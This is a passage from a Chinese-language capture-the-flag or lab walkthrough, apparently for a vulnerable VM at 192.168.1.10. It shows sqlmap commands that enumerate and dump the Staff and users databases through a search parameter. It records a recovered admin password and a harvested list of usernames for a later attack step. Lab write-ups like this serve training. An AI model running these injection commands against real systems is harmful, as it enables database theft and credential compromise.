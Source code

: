 ```
sqlmap -u http://192.168.1.10/results.php --data 'search=1' -D Staff --tables
```

![image-20210705223503242](http://cdn.mxrblog.cn/image-20210705223503242.png)

- 查看该表中的列, 发现了用户名admin以及密码transorbital1

```
sqlmap -u http://192.168.1.10/results.php --data 'search=1' -D Staff -T Users --dump
```

![image-20210705224023999](http://cdn.mxrblog.cn/image-20210705224023999.png)

- 查看库user中的表

```
sqlmap -u http://192.168.1.10/results.php --data 'search=1' -D users --tables
```

![image-20210705224156757](http://cdn.mxrblog.cn/image-20210705224156757.png)

- 查看该表的列

```
sqlmap -u http://192.168.1.10/results.php --data 'search=1' -D users -T UserDetails --columns
```

- 查看列password和username的内容

```
sqlmap -u http://192.168.1.10/results.php --data 'search=1' -D users -T UserDetails -C username,password --dump
```

![image-20210705224546990](http://cdn.mxrblog.cn/image-20210705224546990.png)

- *将用户名和密码分别使用user和pwd装起来*

```
# user

marym
julied
fredf
barneyr
tomc
jerrym
wilmaf
bettyr
chandlerb
joeyt
rachelg
rossg
monicag
phoebeb
scoots
janitor
janitor2
admin
```
